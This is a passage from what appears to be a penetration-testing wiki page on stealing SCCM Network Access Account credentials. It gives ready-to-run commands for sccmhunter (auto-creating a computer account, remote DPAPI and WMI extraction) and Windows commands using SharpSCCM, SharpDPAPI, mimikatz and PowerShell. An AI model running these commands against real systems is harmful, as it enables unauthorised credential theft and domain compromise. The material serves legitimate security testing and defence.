 ### SCCMHunter

#### HTTP

Alternatively, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) automates all the attack with, or without, an already controlled computer accounts. For this purpose, the `http` module uses the result from the `find` command and enumerates the remote hosts for SCCM/MECM enrollment web services. If it finds one, it performs [Adam Chester](https://twitter.com/\_xpn\_)'s attack for the specified computer account. If no account is already under control, the `-auto` flag can be indicated to create a new computer account.

```bash
#Create a new computer account and request the policies
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -auto

#To use an already controlled computer account
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -cn $COMPUTER_NAME -cp $COMPUTER_PASSWORD -dc-ip $DC_IP
```

#### DPAPI

[sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) DPAPI's module can also be used, with valid credentials for a local administrator on the target system, to remotely extract NAA credentials located in the local WMI repository.

```bash
# Extracting from WMI repository root\ccm\policy\Machine\ActualConfig namespace:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -wmi

# Extracting from WMI repository OBJECTS.DATA file:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -disk
```
{% endtab %}

{% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#), [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) or a PowerShell command, can be used with, administrative rights, to extract the NAA credentials locally.

```powershell
# Locally From WMI
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_NetworkAccessAccount

# Extracting from CIM store
SharpSCCM.exe local secretes disk

# Extracting from WMI
SharpSCCM.exe local secretes wmi

# Using SharpDPAPI
SharpDPAPI.exe SCCM

# Using mimikatz
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```
